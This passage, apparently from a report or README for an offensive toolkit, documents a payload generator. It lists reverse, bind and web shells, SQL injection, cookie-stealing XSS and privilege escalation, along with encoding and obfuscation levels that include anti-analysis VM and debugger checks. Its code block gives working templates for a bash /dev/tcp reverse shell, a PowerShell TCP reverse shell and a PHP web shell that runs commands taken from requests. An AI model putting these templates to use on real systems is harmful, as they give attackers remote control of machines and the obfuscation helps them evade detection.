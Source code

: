 #### DNS Libraries Used:
- **dnspython**: Production-grade DNS library
- Custom timeout/lifetime configuration
- Robust exception handling for NXDOMAIN, NoAnswer

---

## PHASE 2: EXPLOITATION & POST-EXPLOITATION

### ✅ Payload Generator (`exploitation/payload_gen.py`)
**Lines**: 433 | **Complexity**: World-Class

#### Payload Types Supported:
- **Reverse Shell**: Linux (bash), Windows (PowerShell), PHP
- **Bind Shell**: Cross-platform
- **Web Shell**: PHP command execution
- **SQL Injection**: UNION-based payloads
- **XSS**: Cookie stealing payloads
- **Privilege Escalation**: Platform-specific

#### Encoding Techniques:
- **BASE64**: Standard encoding
- **HEX**: Hexadecimal encoding
- **ROT13**: Caesar cipher
- **XOR**: XOR encryption with random key
- **URL**: URL encoding

#### Obfuscation Levels (1-5):
1. **Variable Randomization**: Rename common variables
2. **Junk Code Injection**: Add benign noise
3. **String Encoding**: Encode string literals
4. **Payload Splitting**: Multi-stage payloads
5. **Anti-Analysis**: VM detection, debugger checks

#### Template System:
```python
self.templates = {
    "reverse_shell_linux": '''#!/bin/bash
bash -i >& /dev/tcp/{{LHOST}}/{{LPORT}} 0>&1
''',
    "reverse_shell_windows": '''powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('{{LHOST}}',{{LPORT}});...
''',
    "web_shell_web": '''<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
}
?>
'''
}
```
